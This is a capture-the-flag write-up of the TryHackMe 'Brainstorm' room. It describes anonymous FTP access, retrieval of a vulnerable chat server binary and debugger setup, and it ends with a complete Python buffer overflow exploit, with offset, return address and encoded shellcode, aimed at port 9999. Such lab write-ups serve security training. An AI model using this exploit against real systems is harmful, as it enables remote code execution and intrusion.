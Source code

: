 # Brainstorm

## Recon
### Scan

This room is a bit challenging. The scan shows ftp (21) and some chat client (9999). I only see these two, but apparently there are 6. Must be some UDP ports I missed.

### Explore the services

#### FTP
Anonymous login is allowed. I logged in with user `ftp` and pass `ftp` but kept hitting an error about **Extended Passive Mode.**. I did some reasearch to refresh my memory on what this was.
```bash
ftp 10.10.109.7
Connected to 10.10.109.7.
220 Microsoft FTP Service
Name (10.10.109.7:nate): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49356|) 
```

Long story short, you need to force active mode since passive mode is failing. I spent a lot of time googling this error and reading about how to fix it. But the answer was right in the damn man page; need to force active mode with the `-A` flag.

```bash
ftp 10.10.109.7 -A                                                      
Connected to 10.10.109.7.                                                                                      
220 Microsoft FTP Service
Name (10.10.109.7:nate): ftp                                                                                   
331 Anonymous access allowed, send identity (e-mail name) as password.                                         
Password:                                                                                                      
230 User logged in.                                                                                            
Remote system type is Windows_NT.                                                                              
ftp> ls                                                                                                        
200 EPRT command successful.
150 Opening ASCII mode data connection.
08-29-19  07:36PM       <DIR>          chatserver
226 Transfer complete.
```

Great, it's working now and I see a folder.

```bash
ftp> cd chatserver
250 CWD command successful. 
ftp> ls
200 EPRT command successful.
150 Opening ASCII mode data connection.
08-29-19  09:26PM                43747 chatserver.exe
08-29-19  09:27PM                30761 essfunc.dll
226 Transfer complete.
```

Find `chatserver.exe` and download it for later.

```bash
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
200 EPRT command successful.
150 Opening ASCII mode data connection.
100% |******************************************************************| 43747       43.33 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
43747 bytes received in 00:00 (43.31 KiB/s)
```

Crap, I've ran into this before. Need to use `binary` to transfer executables.

```bash
ftp> binary
200 Type set to I.
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |******************************************************************| 43747       43.87 KiB/s    00:00 ETA
226 Transfer complete.
```







It appears to be working. Will not have to to do anything crafty with the network.

![[Pasted image 20220210233944.png]]

Then install immunity, which also installs python. The python installer failed the first time around so I selected "Install just for this user" the second time around. Not sure if it was coincidence or lucky guess but it worked. Lets get crackin!

Actually immunity wouldn't boot as it coulnd't find the python files. So I'm moving this project to a dev version of Windows 11 I have installed in the lab. It'll be a good first look at Windows 11 anyways.

I was able to get everything working in Windows 11. Had to configure Windows firewall to allow port 9999 though.

Everything is working!

![[Pasted image 20220211005230.png]]

Seems like the overflow will be in the username. Lets fire up the tool.

Looks like I spoke too soon about everything working. I got an error when trying to run a `!mona` command.

> pycommands: error importing module

I see online this error is from using the 64-bit python and using a 32bit version should fix it. So...reinstall python with x86 version.

Also, I need to install [mona](https://github.com/corelan/mona). Wow, setting up this environment is a PITA - it was nice having a box ready on TryHackMe for the other challenges. I'll have to save this setup.

Another issue - since the file was downloaded from the internet, it has to be marked as safe in the file properties before it can be used.

![[Pasted image 20220211015656.png]]

Another issue I ran into was the `mona.py` file was full of HTML as I downloaded it incorrectly. Found that [here on github](https://github.com/corelan/mona/issues/15)


IT WORKS!!!!

Getting a snapshot...

I used the buffer overflow helper script I made and got this box done MUCH quicker than I was able to get the DEV environment set up. 
![[Pasted image 20220211021145.png]]

I never turned off Windows AV module so I only had access for a bit before getting kicked.

![[Pasted image 20220211021322.png]]

The completed POC exploit is as follows:

```python3
#!/usr/bin/env python3

import socket

ip = "192.168.1.104"
port = 9999

prefix = " "
offset = 6107
overflow = "A" * offset
retn = "\xdf\x14\x50\x62"
padding = "\x90" * 16
payload = "\xbd\xcf\xbb\xca\x95\xdb\xc2\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x52\x31\x68\x12\x03\x68\x12\x83\x27\x47\x28\x60\x4b\x50\x2f\x8b\xb3\xa1\x50\x05\x56\x90\x50\x71\x13\x83\x60\xf1\x71\x28\x0a\x57\x61\xbb\x7e\x70\x86\x0c\x34\xa6\xa9\x8d\x65\x9a\xa8\x0d\x74\xcf\x0a\x2f\xb7\x02\x4b\x68\xaa\xef\x19\x21\xa0\x42\x8d\x46\xfc\x5e\x26\x14\x10\xe7\xdb\xed\x13\xc6\x4a\x65\x4a\xc8\x6d\xaa\xe6\x41\x75\xaf\xc3\x18\x0e\x1b\xbf\x9a\xc6\x55\x40\x30\x27\x5a\xb3\x48\x60\x5d\x2c\x3f\x98\x9d\xd1\x38\x5f\xdf\x0d\xcc\x7b\x47\xc5\x76\xa7\x79\x0a\xe0\x2c\x75\xe7\x66\x6a\x9a\xf6\xab\x01\xa6\x73\x4a\xc5\x2e\xc7\x69\xc1\x6b\x93\x10\x50\xd6\x72\x2c\x82\xb9\x2b\x88\xc9\x54\x3f\xa1\x90\x30\x8c\x88\x2a\xc1\x9a\x9b\x59\xf3\x05\x30\xf5\xbf\xce\x9e\x02\xbf\xe4\x67\x9c\x3e\x07\x98\xb5\x84\x53\xc8\xad\x2d\xdc\x83\x2d\xd1\x09\x03\x7d\x7d\xe2\xe4\x2d\x3d\x52\x8d\x27\xb2\x8d\xad\x48\x18\xa6\x44\xb3\xcb\x09\x30\xba\x7b\xe2\x43\xbc\x6a\xae\xca\x5a\xe6\x5e\x9b\xf5\x9f\xc7\x86\x8d\x3e\x07\x1d\xe8\x01\x83\x92\x0d\xcf\x64\xde\x1d\xb8\x84\x95\x7f\x6f\x9a\x03\x17\xf3\x09\xc8\xe7\x7a\x32\x47\xb0\x2b\x84\x9e\x54\xc6\xbf\x08\x4a\x1b\x59\x72\xce\xc0\x9a\x7d\xcf\x85\xa7\x59\xdf\x53\x27\xe6\x8b\x0b\x7e\xb0\x65\xea\x28\x72\xdf\xa4\x87\xdc\xb7\x31\xe4\xde\xc1\x3d\x21\xa9\x2d\x8f\x9c\xec\x52\x20\x49\xf9\x2b\x5c\xe9\x06\xe6\xe4\x09\xe5\x22\x11\xa2\xb0\xa7\x98\xaf\x42\x12\xde\xc9\xc0\x96\x9f\x2d\xd8\xd3\x9a\x6a\x5e\x08\xd7\xe3\x0b\x2e\x44\x03\x1e;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
```


Now to swap out the payload (line 15) and the RHOST IP (line 5).

Time to test the exploit.

